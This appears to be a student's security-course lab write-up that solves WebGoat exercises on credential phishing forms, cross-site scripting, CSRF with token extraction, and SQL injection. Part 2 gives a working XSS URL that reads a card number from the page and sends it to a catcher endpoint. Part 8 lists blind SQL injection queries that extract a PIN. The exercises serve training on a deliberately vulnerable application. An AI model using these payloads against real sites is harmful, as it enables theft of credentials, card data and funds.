 ## Part 1:
In this part I created a simple HTML form that accepts the user's username and password. We are assuming here that the 
user trusts this form and enters the credentials. This works because with the information from user and cross-site 
scripting we will be able to bypass the need for a cookie to log in, and so we basically have the credentials to 
infiltrate the user's account.

## Part 2:
In this part I realized that the pin field of the form is vulnerable to script inputs. So I injected some JavaScript in 
the pin parameter such that it will take the card number object from the DOM and sends its value to the malicious 
endpoint. The non-encoded URL is as follows:
```$xslt
http://localhost:8090/WebGoat/start.mvc#attack/1731484628/900?input1&input2=<SCRIPT>XSSImage=new Image;XSSImage.src="http://localhost:8090/WebGoat/catcher?PROPERTY=yes&stolenCreditCard=document.form.input1.value"</SCRIPT>
```

## Part 3:
This part simply creates an image content using the message field, which does not filter out HTML tags. So I added a 
malicious `img` tag, and made the source the malicious endpoint which transfers money from the user to the attacker.

## Part 4:
This part implements something similar to the previous part, with the difference that this time we have to confirm 
the money transfer. So now we have 2 steps. That is why I am using the `onload` attribute of the iframe tag, so that 
the completion of the transfer request invokes the confirmation of the transfer.

## Part 5:
This part implements a similar process to part 4, with the twist of adding a random token that the attacker has to 
fetch before the last step of the transfer. This token is actually hidden in the html of the request page. Extracting 
it from the DOM then allowed me to send this over to the malicious endpoint to complete the transfer.

## Part 6:
This part was a very simple SQL injection. I added a statement that is always true in the `SELECT` query so that the 
information for all of the users gets displayed.

## Part 7:
In this part, the webpage is also vulnerable to SQL injections. So after changing one user's salary to a higher value 
through a simple `UPDATE` query, I added a trigger for any new users made to have their emails updated to the ECE568.

## Part 8:
When 2 true things are in an `AND` statement, the outcome is true, and if only one is wrong, the outcome is false. So I
used the verify message as the outcome of an `AND` statement to find the numeric boundaries of the pin. I used the 
following query to find the 2 limits of 4861 and 4863. Then I concluded that the pin is 4862.
```SQL
101 AND (SELECT pin FROM credit WHERE cc_number='1234123412341234') > 4861;
101 AND (SELECT pin FROM credit WHERE cc_number='1234123412341234') > 4863;
```